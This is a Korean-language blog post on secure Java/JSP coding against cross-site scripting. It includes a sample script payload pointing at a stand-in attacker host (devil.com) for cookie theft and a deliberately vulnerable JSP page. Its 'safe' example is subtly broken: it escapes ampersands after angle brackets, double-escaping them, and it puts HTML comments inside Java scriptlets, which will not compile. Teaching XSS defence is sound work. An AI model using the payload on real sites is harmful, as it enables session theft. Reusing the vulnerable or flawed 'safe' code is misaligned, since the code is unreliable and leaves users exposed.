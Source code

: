 ```yaml
---
title: Java 크로스 사이트 스크립트 코딩 기법
author: dejavuhyo
date: 2021-09-14 06:00:00 +0900
categories: [Language, Java]
tags: [cross-site-scripting, 크로스-사이트-스크립트]
---
```


## 1. 정의
크로스 사이트 스크립트(Improper Neutralization of Input During Web Page Generation, Cross-site Scripting)는 웹 페이지에 악의적인 스크립트를 포함해 사용자 측에서 실행되게 유도할 수 있다.

예를 들어 검증되지 않은 외부 입력이 동적 웹 페이지 생성에 사용될 경우, 전송된 동적 웹 페이지를 열람하는 접속자의 권한으로 부적절한 스크립트가 수행되어 정보 유출 등의 공격을 유발할 수 있다.

![cross-site-scripting](/assets/img/2021-09-14-cross-site-scripting/cross-site-scripting.png)

## 2. 안전한 코딩 기법

* 일반적으로는 사용자가 문자열에 스크립트를 삽입하여 실행하는 것을 막기 위해 사용자가 입력한 문자열에서 `<, >, &, "` 등을 replace 등의 문자 변환 함수나 메소드를 사용하여 `&lt, &gt, &amp, &quot`로 치환한다.

* HTML 태그를 허용하는 게시판에서는 게시판에서 지원하는 HTML 태그의 리스트(White List)를 선정한 후, 해당 태그만 허용하는 방식을 적용한다.

* 보안성이 검증된 API를 사용하여 위험한 문자열을 제거하여야 한다.

## 3. 예제
다음의 예제는 외부 입력을 name 값으로, 특별한 처리 과정 없이 결과 페이지 생성에 사용하고 있다. 만약 악의적인 공격자가 name 값에 다음의 스크립트를 넣으면, 희생자의 권한으로 attack.jsp 코드가 수행되게 되며, 수행하게 되면 희생자의 쿠키 정보 유출 등의 피해를 주게 된다.

```html
<script>url = "http://devil.com/attack.jsp;"</script>
```

* 안전하지 않은 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>

    <body>
        <h1>XSS Sample</h1>
        <%
        <!- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        %>
        <!-- 외부로 부터 받은 name이 그대로 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

다음의 예제와 같이 외부 입력 문자열에서 replaceAll() 메소드를 사용하여 `<`와 `>` 같이 HTML에서 스크립트 생성에 사용되는 모든 문자열을 `&lt;, &gt;, &amp;, &quot;` 같은 형태로 변경함으로써 악의적인 스크립트 실행의 위험성을 줄일 수 있다. 그러나 이러한 방법이 위험성을 완전히 저거 했음을 의미하지는 않는다.

* 안전한 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>
    
    <body>
        <h1>XSS Sample</h1>
        <%
        <!-- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        
        <!-- 외부의 입력값에 대한 검증을 한다. -->
        if ( name != null ) {
            name = name.replaceAll("<","&lt;");
            name = name.replaceAll(">","&gt;");
            name = name.replaceAll("&","&amp;");
            name = name.replaceAll("\"","&quot;");
        } else {
            return;
        }
        %>
        <!-- 외부 로 부터 받은 name에서 '위험 문자'를 제거한 후 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

## [출처 및 참고]
* [https://www.kisa.or.kr/public/laws/laws3_View.jsp?cPage=6&mode=view&p_No=259&b_No=259&d_No=55&ST=T&SV=](https://www.kisa.or.kr/public/laws/laws3_View.jsp?cPage=6&mode=view&p_No=259&b_No=259&d_No=55&ST=T&SV=)
